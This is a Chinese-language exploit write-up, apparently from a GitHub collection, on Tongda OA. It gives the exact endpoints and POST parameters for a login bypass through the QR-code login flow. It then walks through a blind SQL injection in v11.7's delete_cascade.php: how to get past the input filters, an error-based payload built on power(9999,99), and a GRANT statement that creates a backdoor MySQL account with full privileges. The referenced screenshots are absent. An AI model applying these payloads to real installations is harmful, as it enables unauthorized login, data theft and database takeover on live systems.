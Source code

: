 1、首先访问 `/ispirit/login_code.php` 获取 `codeuid`。

2、访问 `/general/login_code_scan.php` 提交 `post` 参数：
`uid=1&codeuid={9E908086-342B-2A87-B0E9-E573E226302A}`

![](images/hvv_04.png)

>3、最后访问 `/ispirit/login_code_check.php?codeuid=xxx`这样 `$_SESSION` 里就有了登录的信息了。

### 通达OA v11.7 后台SQL注入(后面有个简化版 413行)

![参考链接](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)

> 测试版本：通达OA v11.7版本
>
> 限制条件：需要账号登录

> 注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下
![](images/hvv_05.png)

> 首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：
`inc/common.inc.php`代码

![](images/hvv_06.png)

> 因为是无回显机制，是盲注，所以尝试`(select 1 from (select sleep(5))a)`，结果没那么简单：

![](images/hvv_07.png)

> 触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![](images/hvv_08.png)

> 其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，所以还是有机会的。
传入错误的SQL语句时，页面出错：

![](images/hvv_09.png)

> 那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：
```angular2
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```
![](images/hvv_10.png)

### 构造利用链
> 添加用户：

```angular2
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```
![](images/hvv_11.png)
![](images/hvv_12.png)
